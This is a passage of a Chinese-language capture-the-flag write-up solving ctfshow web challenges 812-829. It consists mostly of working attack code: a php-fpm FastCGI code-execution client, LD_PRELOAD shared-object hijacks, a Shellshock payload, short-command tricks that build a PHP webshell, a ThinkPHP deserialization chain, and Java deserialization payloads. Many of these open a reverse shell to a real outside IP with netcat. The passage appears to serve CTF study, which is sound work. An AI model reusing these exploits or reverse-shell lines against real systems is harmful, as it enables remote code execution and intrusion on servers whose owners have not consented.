    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```

```
python3 1.py -c '<?php system("cat /f*");?>' -p 28136 pwn.challenge.ctf.show /usr/local/lib/php/System.php
```

后面找the0n3师傅交流了一下，我的疑问是为什么你们都写的是`System.php`，因为我看了P牛的文章是`PEAR.php`，为了帮助我，他起了一个docker进去docker查看文件，发现



进行了尝试，发现`*cmd.php`，不可以，但是`system.php`，`PEAR.php`以及`index.php`都可以

## web813

```php
<?php
error_reporting(0);

$action = $_GET['a'];
switch ($action) {
    case 'phpinfo':
        phpinfo();
        break;
    
    case 'write':
        file_put_contents($_POST['file'],$_POST['content']);
        break;

    case 'run':
        shell_exec("php -r 'ctfshow();'");
        break;

    default:
        highlight_file(__FILE__);
        break;
}
```

这道题一看解法好多，可以写入文件，还可以打`run`，我们还是继续打FTP

```http
POST /?a=write HTTP/1.1
Host: f5e39efd-89a9-4148-826c-e8e74c174f28.challenge.ctf.show
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
referer: https://f5e39efd-89a9-4148-826c-e8e74c174f28.challenge.ctf.show/
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

file=ftp://156.238.233.9:9999/&content=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH84%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00T%04%00%3C%3Fphp%20system%28%27nc%20156.238.233.9%204444%20-e%20/bin/sh%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

## web814

```php
<?php
error_reporting(0);

$action = $_GET['a'];
switch ($action) {
    case 'phpinfo':
        phpinfo();
        break;
    
    case 'write':
        file_put_contents($_POST['file'],$_POST['content']);
        break;

    case 'run':
        putenv($_GET['env']);
        system("whoami");
        break;

    default:
        highlight_file(__FILE__);
        break;
}
```

`putenv`可以动态设置环境变量，使用`LD_PRELOAD`=`/恶意库路径`进行劫持，现在生成so文件先

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload(){
        system("nc 156.238.233.9 4444 -e /bin/sh");
}
int getuid()
{
        if(getenv("LD_PRELOAD")==NULL){ return 0;}
        unsetenv("LD_PRELOAD");
        payload();
}
```

`unsetenv("LD_PRELOAD");`解除预加载避免循环调用，进行编译

```
gcc -c -fPIC 1.c -o shell&&gcc --share shell -o shell.so
```

然后上传即可

```python
import requests
import time

url = "http://318dd87c-9a85-4c0b-b352-882fedd4cbdd.challenge.ctf.show/"
file = {'file': '/tmp/a.so', 'content': open('shell.so', 'rb').read()}
r1 = requests.post(url+"?a=write", data=file)
time.sleep(1)
# print(r1.text)
r2 = requests.post(url+"?a=run&env=LD_PRELOAD=/tmp/a.so")
time.sleep(1)
print(r2.text)

```

就收到shell了

## web815

在GCC 有个 C 语言扩展修饰符 **attribute**((constructor))，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行__attribute__((constructor)) 修饰的函数。

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void hack(void)
{
    unsetenv("LD_PRELOAD");
    system("echo baozongwi");
    system("nc 156.238.233.9 4444 -e /bin/sh");
}
```

```
gcc -c -fPIC 1.c -o shell&&gcc --share shell -o shell.so
```

```python
import requests
import time

url = "http://bfe52c39-7589-4083-8554-d3b8ee2666b3.challenge.ctf.show/"
file = {'file': '/tmp/a.so', 'content': open('shell.so', 'rb').read()}
r1 = requests.post(url+"?a=write", data=file)
time.sleep(1)
# print(r1.text)
r2 = requests.post(url+"?a=run&env=LD_PRELOAD=/tmp/a.so")
time.sleep(1)
print(r2.text)

```

## web816

```php
<?php

error_reporting(0);

$env = $_GET['env'];
if(isset($env)){
    putenv($env.scandir("/tmp")[2]);
    system("echo ctfshow");
}else{
    highlight_file(__FILE__);
}
```

可以打一个临时文件上传，并且已经帮我们进行`putenv`，加载即可，用上题的so文件

```python
import requests

url="http://264289db-987f-4a76-b6af-fc1c9199c9e3.challenge.ctf.show/"
files={'file':open('shell.so','rb').read()}
r=requests.post(url+"?env=LD_PRELOAD=/tmp/",files=files)
print(r.text)
```

## web817

```php
$file = $_GET['file'];
if(isset($file) && preg_match("/^\/(\w+\/?)+$/", $file)){
	shell_exec(shell_exec("cat $file"));

}
```

这道题就是之前的套娃`shell`，套了两层，很早之前我做过，但是没有做出来，

- 内层 `shell_exec("cat $file")` 读取文件内容；
- 外层 `shell_exec()` 将文件内容作为系统命令执行。

文件我们可以利用缓存，`/proc/pid/fd/`下面我们可以拿到已经没了的文件，也就是缓存版，但是怎么产生缓存呢，当Fastcgi 返回响应包过大，导致 Nginx 需要产生临时文件进行缓存，那我们再遍历`pid`就可以了和`fd`就可以了

```python
import threading, requests
import socket
import re

port = 28232
s = socket.socket()
s.connect(('pwn.challenge.ctf.show', port))
s.send(f'''GET / HTTP/1.1
Host:127.0.0.1

	'''.encode())
data = s.recv(1024).decode()
s.close()
pid = re.findall('(.*?) www-data', data)[0].strip()
print(pid)

con = "nc 156.238.233.9 4444 -e /bin/sh;" + '0' * 1024 * 500
l = len(con)


def upload():
    while True:
        s = socket.socket()
        s.connect(('pwn.challenge.ctf.show', port))
        x = f'''POST / HTTP/1.1
Host: 127.0.0.1
Content-Length: {l}
Content-Type: application/x-www-form-urlencoded
Connection: close

{con}

		'''.encode()
        s.send(x)
        s.close()


def bruter():
    while True:
        for fd in range(3, 40):
            print(fd)
            s = socket.socket()
            s.connect(('pwn.challenge.ctf.show', port))
            s.send(f'''GET /?file=/proc/{pid}/fd/{fd} HTTP/1.1
Host: 127.0.0.1
Connection: close

'''.encode())
            print(s.recv(2048).decode())
            s.close()


for i in range(50):
    t = threading.Thread(target=upload)
    t.start()
for j in range(50):
    a = threading.Thread(target=bruter)
    a.start()

```

几秒就收到shell了

## web818

```php
$env = $_GET['env'];
if(isset($env)){
	putenv($env);
	system("echo ctfshow");
}else{
	system("ps aux");
}
```

一样的劫持，但是这里还是要上传很大的文件来利用缓存

```python
# coding: utf-8

import urllib.parse
import threading, requests
import socket
import re

port = 28280
s = socket.socket()
s.connect(('pwn.challenge.ctf.show', port))
s.send(f'''GET / HTTP/1.1
Host:127.0.0.1

	'''.encode())
data = s.recv(1024).decode()
s.close()
pid = re.findall('(.*?) www-data', data)[0].strip()
print(pid)
l = str(len(open('shell.so', 'rb').read() + b'\n' * 1024 * 200)).encode()


def upload():
    while True:
        s = socket.socket()
        s.connect(('pwn.challenge.ctf.show', port))
        x = b'''POST / HTTP/1.1
Host: 127.0.0.1
User-Agent: yu22x
Content-Length: ''' + l + b'''
Content-Type: application/x-www-form-urlencoded
Connection: close

''' + open('shell.so', 'rb').read() + b'\n' * 1024 * 200 + b'''

'''
        s.send(x)
        s.close()


def bruter():
    while True:
        for fd in range(3, 40):
            print(fd)
            s = socket.socket()
            s.connect(('pwn.challenge.ctf.show', port))
            s.send(f'''GET /?env=LD_PRELOAD=/proc/{pid}/fd/{fd} HTTP/1.1
Host: 127.0.0.1
User-Agent: yu22x
Connection: close

'''.encode())
            print(s.recv(2048).decode())
            s.close()


for i in range(30):
    t = threading.Thread(target=upload)
    t.start()
for j in range(30):
    a = threading.Thread(target=bruter)
    a.start()

```

## web819

```php
<?php
$env = $_GET['env'];
if(isset($env)){
    putenv($env);
    system("whoami");
}else{
    highlight_file(__FILE__);
}
```

破壳漏洞我们知道

```
() { :; }; echo; /bin/cat /f*
```

可以看到他肯定要执行一个`whoami`，我们可以利用破壳的一个姿势把`whoami`这个函数给篡改了，姿势如下

1. 必须有前缀
2. 只执行前缀之后，后缀之前的东西
3. 函数体必须以`() {`开头，函数名必须以`BASH_FUNC_`开头，并以`%%`结尾

```
?env=BASH_FUNC_whoami%%=() {whoami;}
```

## web820

访问`upload.php`，得到源码

```php
<?php
error_reporting(0);

if(strlen($_FILES['file']['tmp_name'])>0){
    $filetype = $_FILES['file']['type'];
    $tmpname = $_FILES['file']['tmp_name'];
    $ef = getimagesize($tmpname);

    if( ($filetype=="image/jpeg") && ($ef!=false) && ($ef['mime']=='image/jpeg')){
        $content = base64_decode(file_get_contents($tmpname));
        file_put_contents("shell.php", $content);
        echo "file upload success!";
    }
}else{
    highlight_file(__FILE__);
}
```

`getimagesize`限制了，所以上传的必须是图片，并且把一句话藏在里面不会解码失败，那直接补上一个编码之后为4的倍数的就可以了



## web821

```php
<?php

#flag in database;
error_reporting(0);
highlight_file(__FILE__);

$cmd = $_POST['cmd'];

if(strlen($cmd) <= 7){
    shell_exec($cmd);
}
```

flag在数据库所以要写一个木马？，但是这长度也太长了吧，可以直接打临时文件，但是要木马，不行，所以还是写，主要就是payload，其他的没啥，要不断的创建文件，利用文件名写出一句话木马

```python
import requests
import time

url = "http://7ae81710-a75a-422c-838a-a9cf653eb156.challenge.ctf.show/"
payload = [
    ">hp",
    ">2.p\\",
    ">d\\>\\",
    ">\\ -\\",
    ">e64\\",
    ">bas\\",
    ">7\\|\\",
    ">XSk\\",
    ">Fsx\\",
    ">dFV\\",
    ">kX0\\",
    ">bCg\\",
    ">XZh\\",
    ">AgZ\\",
    ">waH\\",
    ">PD9\\",
    ">o\\ \\",
    ">ech\\",
    "ls -t>0",
    ". 0"
]


def write():
    for poc in payload:
        data = {"cmd": poc.strip()}
        requests.post(url, data)
        print("create " + poc.strip())
        time.sleep(1)


def read():
    r = requests.get(url + "2.php?1=system('ls /;whoami');")
    print(r.text)


if __name__ == "__main__":
    write()
    read()

```



## web822

打临时文件命令执行

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

$cmd = $_POST['cmd'];

if(strlen($cmd) <= 7){
    shell_exec($cmd);
}
```

```python
import requests

url = "http://0dd4ba27-af74-4d78-a655-8a28815a4e10.challenge.ctf.show/"
files = {'file': 'nc 156.238.233.9 4444 -e /bin/sh'}
r = requests.post(url, files=files, data={'cmd': '. /t*/*'})
print(r.text)

```

写个马

```
echo PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==|base64 -d > /var/www/html/shell.php
```

额，写不了，那只能是直接进数据库了

```
mysql -u root -proot
show databases;
show database();
use ctfshow;
show tables;
select * from ctfshow_secret;
```

延迟特别高



## web823

五个字符可以写

```python
# @Author: h1xa
import requests
import time

url = "http://4c8d4071-70e2-471f-8db2-9b8b26c4fa78.challenge.ctf.show/"

payload = [
    ">grep",
    ">h",
    "*>j",
    "rm g*",
    "rm h*",
    ">cat",
    "*>>i",
    "rm c*",
    "rm j",
    ">cp",
    "*"
]


def writeFile(payload):
    data = {
        "cmd": payload
    }
    requests.post(url, data=data)


def run():
    for p in payload:
        writeFile(p.strip())
        print("[*] create " + p.strip())
        time.sleep(0.3)
    print("[*] Attack success!!!Webshell is " + url)


def main():
    run()


if __name__ == '__main__':
    main()

```

长度就被绕过了，直接用`nc`，反弹shell之后在数据库里面，我们来仔细分析一下这个poc，

```python
payload = [
    ">grep", # 创建grep
    ">h",    # 创建h
    "*>j",   # 把所有文件放到j，执行了grep h
    "rm g*", 
    "rm h*",
    ">cat",  # 创建cat
    "*>>i",  # 把所有文件放进i,那么i就是cat
    "rm c*", 
    "rm j",
    ">cp",
    "*"      # 执行 cp i *
]
```

诶那这样index.php就成了我们可以利用的了

## web824

和上题一样

## web825

linux中dir和ls的区别：都是将当前目录的文件和文件夹按照顺序列出在同一行，但是ls经过管道或重定向后，结果是换行的，而dir经过管道或重定向后，见过是不换行的。也就是说如果是`ls`那我们需要转义，但是`dir`就不用

```python
import requests
import time

url = "http://891646da-b10c-49b1-98db-1d225bfc7973.challenge.ctf.show/"

payload = [
    '>sl',
    '>kt-',
    '>j\\>',
    '>j\\#',
    '>dir',
    '*>v',
    '>rev',
    '*v>x',
    '>php',
    '>a.\\',
    '>\\>\\',
    '>-d\\',
    '>\\ \\',
    '>64\\',
    '>se\\',
    '>ba\\',
    '>\\|\\',
    '>4=\\',
    '>Pz\\',
    '>k7\\',
    '>XS\\',
    '>sx\\',
    '>VF\\',
    '>dF\\',
    '>X0\\',
    '>gk\\',
    '>bC\\',
    '>Zh\\',
    '>ZX\\',
    '>Ag\\',
    '>aH\\',
    '>9w\\',
    '>PD\\',
    '>S}\\',
    '>IF\\',
    '>{\\',
    '>\\$\\',
    '>ho\\',
    '>ec\\',
    'sh x',
    'sh j'
]


def writeFile(payload):
    data = {
        "cmd": payload
    }
    requests.post(url, data=data)


def run():
    for p in payload:
        writeFile(p.strip())
        print("[*] create " + p.strip())
        time.sleep(0.3)


def check():
    response = requests.get(url + "a.php")
    if response.status_code == requests.codes.ok:
        print("[*] Attack success!!!Webshell is " + url + "a.php")


def main():
    run()
    check()


if __name__ == '__main__':
    main()
```

## web826

出网的那种方法没看懂是在干啥，我写成了访问我的`shell.sh`结果没有成功，干脆直接打不出网的情况算了，空格不够用的时候，用`${IFS}`

```python
import requests
import time

url = "http://e8f974ad-084e-4cfa-ad78-30a55135313b.challenge.ctf.show/"

payload = [
    '>\\ \\',
    '>-t\\',
    '>\\>a',
    '>ls\\',
    'ls>v',
    '>mv',
    '>vt',
    '*v*',
    '>ls',
    'l*>t',
    '>cat',
    '*t>z',

    '>php',
    '>a.\\',
    '>\\>\\',
    '>-d\\',
    '>\\ \\',
    '>64\\',
    '>se\\',
    '>ba\\',
    '>\\|\\',
    '>4=\\',
    '>Pz\\',
    '>k7\\',
    '>XS\\',
    '>sx\\',
    '>VF\\',
    '>dF\\',
    '>X0\\',
    '>gk\\',
    '>bC\\',
    '>Zh\\',
    '>ZX\\',
    '>Ag\\',
    '>aH\\',
    '>9w\\',
    '>PD\\',
    '>S}\\',
    '>IF\\',
    '>{\\',
    '>\\$\\',
    '>ho\\',
    '>ec\\',

    'sh z',
    'sh a'
]


def writeFile(payload):
    data = {
        "cmd": payload
    }
    requests.post(url, data=data)


def run():
    for p in payload:
        writeFile(p.strip())
        print("[*] create " + p.strip())
        time.sleep(1)


def check():
    response = requests.get(url + "a.php")
    if response.status_code == requests.codes.ok:
        print("[*] Attack success!!!Webshell is " + url + "a.php")


def main():
    run()
    check()


if __name__ == '__main__':
    main()
```

## web827

同上

## web828

 ThinkPHP V6.0.12LTS，网上有exp

```php
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['ls']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    echo(urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}
```

其中`$this->data`为poc

```http
POST /index.php/index/test HTTP/1.1
Host: 6d3325ae-d4ff-4d93-8e0d-267c54d86503.challenge.ctf.show
Connection: keep-alive
Content-Length: 1211
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://6d3325ae-d4ff-4d93-8e0d-267c54d86503.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://6d3325ae-d4ff-4d93-8e0d-267c54d86503.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1

a=O%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22cat+%2Ff%2A%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22cat+%2Ff%2A%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```

## web829

```java
package com.ctfshow.controller;

@Controller
@RequestMapping("/")
public class IndexController {

    @RequestMapping(value = "/",method = RequestMethod.POST)
    @ResponseBody
    public String index(HttpServletRequest request){
        User user=null;
        try {
            byte[] userData = Base64.getDecoder().decode(request.getParameter("userData"));
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(userData));
            user = (User) objectInputStream.readObject();
        }catch (Exception e){
            return "base64 decode error";
        }

        return "unserialize done, you username is "+user.getName();
    }

    @RequestMapping(value = "/",method = RequestMethod.GET)
    @ResponseBody
    public String index(){
        return "plz post parameter 'userData'  to unserialize";
    }
}


package com.ctfshow.entity;

public class User implements Serializable {

    private static final long serialVersionUID = -3254536114659397781L;
    private String username;

    public User(String username) {
        this.username = username;
    }

    public String getName(){
        return this.username;
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.username);
    }
}
```

他直接利用`readObject`进行了代码执行，而且也是直接进行了反序列化，所以写写

```java
package com.ctfshow.entity;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class exp {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException {
        User user = new User("nc 156.238.233.9 4444 -e /bin/sh");
        byte[] bytes = null;
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        ObjectOutputStream oo = new ObjectOutputStream(bo);
        oo.writeObject(user);
        bytes = bo.toByteArray();
        bo.close();
        oo.close();
        byte[] userData = Base64.getEncoder().encode(bytes);
        for (int x = 0; x < userData.length; x++) {
            System.out.print((char) userData[x]);
        }
    }
}
```

```http
POST / HTTP/1.1
Host: 1b3a1e81-e9de-47ff-8ad4-c2133ea38707.challenge.ctf.show
Connection: keep-alive
Content-Length: 157
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://1b3a1e81-e9de-47ff-8ad4-c2133ea38707.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
